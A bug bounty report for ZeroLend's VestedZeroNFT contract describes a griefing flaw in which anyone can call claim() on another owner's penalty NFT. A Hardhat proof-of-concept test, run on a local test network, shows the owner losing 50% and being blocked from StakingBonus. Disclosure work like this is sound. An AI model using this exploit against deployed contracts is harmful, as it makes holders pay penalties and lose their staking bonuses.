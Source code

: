 
# Griefing attack for VestedZeroNFT

Submitted on Thu Mar 07 2024 13:12:50 GMT-0400 (Atlantic Standard Time) by @ox7a69 for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29123

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Permanent freezing of funds
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Vulnerability Details
It is possible for anyone to call the `claim()` function of the `VestedZeroNFT` contract on behalf of the NFT owner. This poses an issue especially when an NFT is minted with `penalty=true`. In such cases, the NFT owner ends up paying a penalty (currently 50%) and loses the ability to utilize the `StakingBonus` contract.

This situation sets the stage for a Griefing attack scenario where an attacker can trigger `claim()` for NFTs with `penalty=true`. Consequently, the owners bear penalties and forfeit the opportunity to receive bonuses through the `StakingBonus` mechanism.

## References
- https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L159
- https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L211
- https://github.com/zerolend/governance/blob/main/contracts/vesting/StakingBonus.sol#L74
- https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L333

        
## Proof of concept
## Proof of Concept
To run the Poc put it's code to the `governance-main/test/Gauge.poc.ts` file, generate a random private key, and issue the following command:

```
WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/Gauge.poc.ts --config hardhat.config.ts --network hardhat
```

**PoC scenario**:
1. The deployer generates `VestedZeroNFT` with `penalty=true` to the Whale.
2. The Ant (attacker) quickly invokes `claim()` for the Whale's Nft.
3. As a result `50%` penalty is paid and now `unclaimed()` returns `0` for the Nft.
4. The Whale wants to transfer Nft to the `StakingBonus` contract, but their tx reverts since `unclaimed()` returns `0`.



```
import { expect } from "chai";
import { deployGovernance } from "./fixtures/governance";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import {
  LockerToken,
  OmnichainStaking,
  StakingBonus,
  VestedZeroNFT,
  ZeroLend,
} from "../typechain-types";
import { e18 } from "./fixtures/utils";

describe("Immunefi Boost", () => {
  let ant: SignerWithAddress;
  let whale: SignerWithAddress;
  let vest: VestedZeroNFT;
  let now: number;
  let stakingBonus: StakingBonus;
  let zero: ZeroLend;
  let locker: LockerToken;
  let omniStaking: OmnichainStaking;

  beforeEach(async () => {
    const deployment = await loadFixture(deployGovernance);
    ant = deployment.ant;
    zero = deployment.zero;
    vest = deployment.vestedZeroNFT;
    stakingBonus = deployment.stakingBonus;
    locker = deployment.lockerToken;
    omniStaking = deployment.omnichainStaking;
    now = Math.floor(Date.now() / 1000);
    whale = deployment.whale;
  });


  // Run as: WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/Griefing.poc.ts --config hardhat.config.ts --network hardhat


  describe("Griefing", () => {
    it("Ant attacks Whale", async () => {
      expect(await vest.lastTokenId()).to.equal(0);

      // deployer should be able to mint a nft for Whale
      // with penalty = True
      await vest.mint(
        whale.address,
        e18 * 20n, // 20 ZERO linear vesting
        0, // 0 ZERO upfront
        1000, // linear duration - 1000 seconds
        0, // cliff duration - 0 seconds
        now + 1000, // unlock date
        true, // penalty!!
        0
      );

      expect(await vest.lastTokenId()).to.equal(1);

      // Ant calls claim() for minted Nft with penalty
      // Nft is minted for Whale
      await vest.connect(ant).claim(1);
      
      // Whale transfers Nft to StakingBonus contract
      // But it reverts
      await expect(
        vest
          .connect(whale)
          ["safeTransferFrom(address,address,uint256)"](
            whale.address,
            stakingBonus.target,
            1
        )
      ).to.be.reverted;
    });
  });
});
```